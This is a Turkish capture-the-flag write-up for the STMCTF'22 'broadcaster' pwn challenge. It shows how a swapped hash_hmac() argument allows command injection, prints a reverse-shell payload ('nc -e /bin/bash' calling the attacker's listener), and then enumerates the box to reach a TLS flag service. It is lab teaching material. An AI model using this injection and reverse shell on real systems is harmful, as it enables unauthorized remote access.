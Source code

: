 # STMCTF'22 Final

## Soru İsmi:

`broadcaster`

### Kategori:
 - `Pwn`

### Soru:
```
TR:
Eğer flag'a ulaşmak istiyorsan unutma ki sadece belli kişilere cevap verilmektedir.

EN:
If you want to reach the flag, remember that only certain people are answered.
```

---

## Çözüm:
```
robots.txt dosyasına bakıldığında POST'un gönderildiği buggy.php dosyasının ascii halini tutan dosyanın yeri base64 koduyla belirtildiği anlaşılır.
```
![Image](Solution/001.png)
```
buggy.txt dosyasından hash_hmac() fonksiyonun yanlış kullanıldığı (birinci ve üçüncü argümanların yerlerinin karıştırıldığı) anlaşılmaktadır.

buggy.txt deki koşulları aşacak şekilde saldırganın kontrolünde olan **user, pass, hash_algo** parametrelerle  hesaplanır. Ve saldırı makinesinden **nc -vlp 4444** açılarak gelecek istekler için dinlemeye başlanır.
```
`$hash = hash_hmac("whirlpool", "nc -e /bin/bash 172.17.0.1 4444", "sha256");`

`nc -vlp 4444`

![Image](Solution/002.png)
```
Sisteme **www-data** kullanıcısı olarak eriştikten sonra akra planda çalışan process'lere bakıldığında **flag_broadcaster.py** dikkat çekmektedir.
```
`ps auxf`

![Image](Solution/003.png)
```
flag_broadcaster.py dosyası okuma izni olmadığından içeriğine bakılamaz. Bu aşamada mevcut kullanıcının ENV değişkenlerine göz atıldığında base64 ile encode edilmiş olan $DF dikkat çekmektedir ve bu değişken decode eildiğinde **STMCTF** olduğu görülür. Bu aşamada bu bilgiler bir iş yaramasa da kenar durmalıdır (İleride kullanılacaklar).
```
`env`

`echo $DF | base64 -d`

![Image](Solution/004.png)
```
**flag_broadcaster.py** adı yayın yapan bir servise benzediği için `netstat -antup` komutuyla açık servisler listelenir ve flag_broadcaster'ın 9989 nolu port LISTEN durumunda olduğu görülür.
```
![Image](Solution/005.png)
```
Bu porta yapılan temel bağlantı istekleri bir sonuç vermiyecektir. Bu durumda farklı olarak bir TLS bağlantı isteği denemesi yapılabilir. Bunun için de sistem yüklü olan **openssl** paketi kullanılabilir.
```
`openssl s_client -connect 127.0.0.1:9989`
```
Bağlantı sağlanınca verilen her komutun büyük harf olarak geri gönderildiği anlaşılmaktadır. Daha önceden ENV değişkenlerinden çıkardığımız **STMCTF** kelimesini gönderince ise FLAG cevap olarak alınacaktır.
```
![Image](Solution/006.png)

`NOT: Flag'ler farklılık gösterebilir.`